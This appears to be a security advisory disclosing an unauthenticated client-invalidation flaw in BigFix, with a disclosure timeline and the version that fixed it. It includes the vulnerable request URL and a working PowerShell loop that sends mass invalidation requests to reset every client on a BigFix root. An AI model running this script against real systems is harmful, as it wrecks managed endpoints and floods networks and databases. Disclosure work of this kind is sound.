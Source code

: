 ## Overview

BigFix clients that find themselves in error states issue a command against the BigFix server to invalidate themselves. This allows them to gracefully reset and to inform the server that things like Report IDs, etc will no longer match their expected values coming from the client.

## Vulnerability

When a client detects an issue with it's current state it may invalidate itself by calling:

http://bigfix:52311/cgi-bin/bfenterprise/clientregister.exe?RequestType=InvalidateAndReRegisterMe

By supplying &Body=$Number after that request you can invalidate any bigfix client based on it's ID.

Resetting a client causes the client to delete all __BESData directory information, causes it to get a new client ID, and lose any manual group memberships.

The client must then evaluate all content, report back in, and will re-perform any initial provisioning tasks. Because any client can invalidate any other client, it would be trivial to have a client invalidate all clients, destroying the infrastructure, filling up the database and generating very large amounts of  network traffic.

## Potential Mitigation

Authenticating Relays is a potential mitigation but would only prevent this attack from occurring anonymously -- an attacker would need just one malicious client running BigFix to perform this attack against an authenticating relay.
Steps to Reproduce Vulnerability: Use below powershell script against a BigFix root. The higher the number of clients on the root the more effective the attack.

## Proof of Concept

Depending on the speed of the system involved you can easily do 1000 requests per second and force an organization-wide client reset within about 5 hours.
Sample PCAP/Proof of Concept/Traces or Description of Exploit/Attack Code: Powershell Script
```
foreach ($Number in 100000 .. 10000000) {
invoke-webrequest -uri "http://bigfix-relay:52311/cgi-bin/bfenterprise/clientregister.exe?RequestType=InvalidateAndReRegisterMe&Body=$Number" | out-null
if ($Number % 100 -eq 0) {write-host $Number}
}
```

## Disclosure Timeline
Disclosed on March 1st 2017

Fixed in BigFix 9.5.6 released July 14th 2017

